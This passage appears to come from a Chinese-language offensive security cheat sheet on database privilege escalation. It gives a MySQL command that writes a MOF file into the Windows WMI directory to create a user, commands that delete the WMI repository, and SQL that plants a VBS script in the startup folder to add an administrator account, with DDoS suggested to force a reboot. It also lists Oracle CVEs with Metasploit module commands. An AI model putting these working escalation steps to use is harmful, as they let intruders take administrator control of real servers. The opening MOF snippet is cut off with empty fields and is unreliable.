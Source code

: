     instance of __FilterToConsumerBinding
    {
        Consumer   = ;
        Filter = ;
    };
    ```
    1. 保存为 1.mof,然后 mysql 执行：`select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';`
    2. mof 被执行的话，会帮我们添加一个叫 sqladmin 的用户。

    **关于 Mof 提权的弊端**

    我们提权成功后，就算被删号，mof 也会在五秒内将原账号重建，那么这给我们退出测试造成了很大的困扰，所以谨慎使用。那么我们如何删掉我们的入侵账号呢？
    ```
    net stop winmgmt
    del c:/windows/system32/wbem/repository
    net start winmgmt
    ```

- **启动项提权**

    在前两种方法都失败时，那可以试一下这个苟延残喘的启动项提权..因为要求达到的条件和 mof 几乎一样，并且要重启服务，所以不是十分推荐。原理还是使用 mysql 写文件，写入一段 VBS 代码到开机自启动中，服务器重启达到创建用户并提权，可以使用 DDOS 迫使服务器重启。

    提权条件
    1. file_priv 不为 null
    2. 已知 root 密码

    ```sql
    create table a (cmd text);
    insert into a values ("set wshshell=createobject (""wscript.shell"") " );
    insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
    insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
    select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
    ```

### oracle
**工具**
- [jas502n/oracleShell](https://github.com/jas502n/oracleShell) - oracle 数据库命令执行

**CVE-2010-3600 Oracle Enterprise Manager Grid Control JSP 代码执行漏洞**
- MSF 模块
    ```bash
    use exploit/windows/oracle/client_system_analyzer_upload
    ```

**CVE-2012-1675 Oracle TNS Listener Remote Poisoning**
- 文章
    - [Oracle TNS Listener Remote Poisoning](http://www.cnblogs.com/zhuxr/p/9618512.html)

- MSF 模块
    ```bash
    use auxiliary/admin/oracle/tnscmd   # 该漏洞可以远程获取到 oracle 的内存信息,若是能获取到内存中的数据即为存在漏洞。
    set rhosts <ip>
    run
